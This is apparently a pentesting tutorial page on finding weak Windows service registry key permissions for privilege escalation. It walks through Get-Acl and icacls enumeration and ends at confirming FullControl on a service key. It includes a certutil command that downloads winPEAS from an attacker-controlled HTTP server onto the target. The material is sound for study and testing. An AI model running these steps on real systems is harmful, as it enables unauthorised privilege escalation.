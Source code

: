 ```yaml
---
legal-banner: true
---
```


### **HUNTING FOR WEAK REGISTRY KEY MANUALLY**

1.  Hunting for Weak Registry Key Permissions with PowerShell  
    `Get-Acl -Path hklm:\System\CurrentControlSet\services\* | Format-List | Out-File -FilePath C:\temp\SystemServicesACLs.txt`
    
2.  Transfer the file to your machine (see the file transfer section), By using some Linux commands, This will help us identify any outliers more easily  
    `cat SystemServicesACLs.txt | grep -i "Path\|Access\|BUILTIN\\\Users\|Everyone\|INTERACTIVE\|Authenticated Users" | grep -v "ReadKey" | grep -B 1 -i "Authenticated Users|\BUILTIN\\\Users\|Everyone\|INTERACTIVE\|FullControl\|Modify\|Write"`
    

### **HUNTING FOR WEAK REGISTRY KEY WITH WINPEAS**

1.  Since the target runs a 64-bit OS, we can send 64-bit winPEAS via a Python HTTP server..  
    `python3 -m http.server 8000`  
    
    ![](../../../../img/Windows-Environment/109.png)

    **NOTE:** We have identified that the target machine is a 64-bit architecture using the following command:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Transfer winPEAS to target machine Using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/winPEASx64.exe winPEASx64.exe`  
    
    ![](../../../../img/Windows-Environment/110.png)
    
3.  Now, all we need to do is run winPEAS to search for weak Registry permissions:  
    `.\winPEASx64.exe`  
    
    ![](../../../../img/Windows-Environment/111.png)

    **NOTE:** FullControl and Take ownership privileges can be exploited to take advantage of weak registry permissions.
    

### **ENUMERATING THE WEAK SERVICE REGISTRY KEY WE FOUND**

1.  We can enumerate the service directly using cmd.exe  
    `reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc"`  
    
    ![](../../../../img/Windows-Environment/112.png)
    
2.  We can enumerate the service directly using PowerShell:  
    `Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc' | Select-Object *`  
    
    ![](../../../../img/Windows-Environment/113.png)

    **START 0: BOOT START** **:** Loaded by the OS loader before other services.  
    **START 1: SYSTEM START** **:** Started during the system boot.  
    **START 2: AUTOMATIC START** **:** Started automatically by the Service Control Manager during system startup.  
    **START 3: MANUAL START** **:** Must be started manually by a user or application.  
    **START 4: DISABLED** **:** The service is disabled and will not start.
    
3.  To verify permissions with icacls, it's important to understand the permissions for each directory.  
    Check [Microsoft documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) to learn more about permissions.  
    
    ![](../../../../img/Windows-Environment/114.png)
    
4.  we can enumerate the permissions on the C:\\Program Files\\Juggernaut folder or the Juggernaut.exe file, we will likely find that we do not have permissions to replace the binary with a malicious one.  
    `icacls "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"`  
    `icacls "C:\Program Files\Insecure Registry Service"`  
    
    ![](../../../../img/Windows-Environment/115.png)

    **NOTE:** From the output, we see the current user belongs to the BUILTIN\\Users group, which lacks (F), (M), or (W) permissions, meaning we cannot modify the file from the original ImagePath.
    
5.  This is where it gets interesting. With permissions to modify the registry key, we can change the ImagePath to point to a file we control.  
    `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`  
    
    ![](../../../../img/Windows-Environment/116.png)

    `whoami /groups`  
    
    ![](../../../../img/Windows-Environment/117.png)

    **NOTE:** The output confirms the user is part of the "NT AUTHORITY\\INTERACTIVE" group, which has FullControl permissions on the regsvc registry key, allowing the exploitation of weak registry key permissions.